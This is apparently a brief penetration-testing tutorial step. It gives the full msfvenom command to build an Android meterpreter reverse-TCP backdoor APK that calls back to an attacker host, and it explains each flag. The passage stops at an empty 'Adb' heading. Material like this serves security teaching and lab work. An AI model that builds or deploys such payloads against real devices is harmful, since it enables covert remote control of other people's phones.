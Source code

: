 # Malicious APK

In this step, we will generate a malicious APK using the msfvenom tool.
`msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=5555 -o backdoor.apk`

The command above uses `msfvenom` to create a malicious payload for an Android device. This tool merges the functionalities of two older Metasploit utilities, `msfpayload` and `msfencode`.

- `-p android/meterpreter/reverse_tcp`
1. "-p" specifies the payload type.
2. "android/meterpreter/reverse_tcp" means the payload is for an Android device, and it creates a reverse TCP connection.

With a reverse TCP connection, the target (Android device) will connect back to the attacker's system (instead of the attacker directly accessing the target).

- `LHOST=192.168.1.100`

This is the local host IP address (the attacker's machine) that the target will connect back to.
- `LPORT=5555`

This is the local port on the attacker's machine that will listen for the connection. Port 5555 is used here.

- `-o backdoor.apk`

The -o option specifies the output file. Here, the payload will be embedded in an Android APK file named backdoor.apk.
# Adb (Android Debug Bridge)

